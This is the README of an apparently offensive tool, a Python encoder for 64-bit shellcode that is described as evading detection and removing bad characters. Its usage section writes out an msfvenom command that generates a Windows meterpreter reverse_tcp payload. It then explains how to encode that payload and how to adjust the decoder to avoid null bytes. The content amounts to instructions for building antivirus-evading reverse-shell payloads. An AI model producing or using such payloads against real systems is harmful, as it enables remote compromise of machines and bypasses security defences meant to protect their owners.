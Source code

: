 # x64-shellcode-encoder
Custom 64 bit shellcode encoder that evades detection and removes some common badchars (\x00\x0a\x0d\x20)

## Usage
Using a generator such as msfvenom, run the following command:
```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -o sc.bin```

Then, run the python script with the file containing shellcode bytes as an argument:
```python3 encoder-x64.py sc.bin```

The script will automatically look for the following common bad characters after encoding the shellcode (null bytes, new lines, carriage returns, spaces). This can be disabled by commenting out code on line 130 and uncommenting lines 128 + 129. This will make the encoded shellcode much shorter, but it will likely contain a few bad characters. The script will output what bad characters the encoded shell code ends up containing as well as their positions in the shellcode.

It is also worth noting that short shellcode (less than 255 bytes) will likely contain a null byte in the encoded shellcode in part of the decoding routine. This null byte comes from line 80, and if short shellcode must be used that does not contain null bytes, edit the script to do something along the lines of:
```mov cl, shellcode_length```
where the shellcode_length would be one byte long. This shortens the decoding routine by two bytes, so either add in a couple of null bytes or edit the offset on line 57 to account for it.
